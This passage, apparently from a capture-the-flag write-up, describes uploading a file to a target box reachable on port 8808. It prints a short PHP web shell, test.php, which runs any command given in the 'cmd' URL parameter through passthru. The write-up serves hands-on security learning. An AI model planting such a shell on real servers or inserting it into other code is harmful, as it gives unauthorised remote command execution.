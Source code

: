 ![Img](images/new-site.png "Img")

I didn't know what to do, and so after a while a php file magically appeared, I guess it was someone trying to root the box as well. That's what made realise that maybe I could access these files from port 8808. And so I uploaded the following php script that lets me pass commands to the machine and get the output:

*Content of test.php*

```php
<?php
header('Content-Type: text/plain');
$cmd=$_GET['cmd'];

$output = passthru($cmd);
echo $output;
?>
```
